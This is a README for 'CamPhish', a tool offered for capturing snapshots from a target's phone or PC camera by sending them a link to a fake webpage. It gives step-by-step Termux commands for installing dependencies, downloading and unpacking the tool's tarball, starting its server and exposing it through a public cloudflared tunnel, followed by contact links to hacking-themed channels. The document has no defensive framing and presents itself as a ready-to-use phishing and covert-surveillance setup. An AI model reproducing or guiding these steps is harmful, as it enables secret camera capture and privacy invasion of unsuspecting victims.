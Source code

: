 # CamPhish
Grab cam shots from target's phone front camera or PC webcam just sending a link.
### [TERMUX] Instagram Install Comments

```
pkg update && pkg upgrade -y
```
```
pkg install curl git nodejs cloudflared
```
```
curl -L -o cambest.tar.gz https://github.com/webappsite/Camphish/raw/refs/heads/main/cambest.tar.gz
```
```
tar -xvzf cambest.tar.gz && rm cambest.tar.gz
```
```
cd cambest
```
```
npm start
```
### Public url command
```
cloudflared tunnel --url localhost:5000
```


Hosts a fake webpage using a server and tunnel (ngrok or Cloudflare)

Requests and captures webcam snapshots from the target
## 📌 Contact Me  

<a href="https://youtube.com/@zerodarknexus">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white" alt="YouTube">
</a>  
<br>  

<a href="https://github.com/Masterdas?tab=repositories">
  <img src="https://img.shields.io/badge/GitHub-000000?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
</a>  
<br>  

<a href="https://t.me/ZeroHackNexus">
  <img src="https://img.shields.io/badge/Telegram-26A5E4?style=for-the-badge&logo=telegram&logoColor=white" alt="Telegram">
</a>  
<br>  

<a href="https://chat.whatsapp.com/II35pNaN25rHqnUmqXK6ag">
  <img src="https://img.shields.io/badge/WhatsApp-25D366?style=for-the-badge&logo=whatsapp&logoColor=white" alt="WhatsApp">
</a>
